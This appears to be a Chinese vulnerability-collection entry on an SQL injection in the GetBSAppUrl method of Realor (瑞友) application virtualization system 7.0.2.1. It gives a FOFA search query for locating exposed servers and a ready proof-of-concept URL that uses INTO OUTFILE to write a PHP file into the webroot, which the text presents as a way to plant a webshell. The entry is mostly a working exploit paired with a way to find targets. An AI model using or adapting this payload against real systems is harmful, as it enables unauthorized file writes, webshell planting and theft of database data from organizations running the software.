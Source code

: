 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

## FOFA

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

## 漏洞复现

登陆页面

![image-20230417100516425](images/image-20230417100516425.png)

在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![image-20230417100529493](images/image-20230417100529493.png)

验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![image-20230417100544162](images/image-20230417100544162.png)

```
/test7.php
```

![image-20230417100554583](images/image-20230417100554583.png)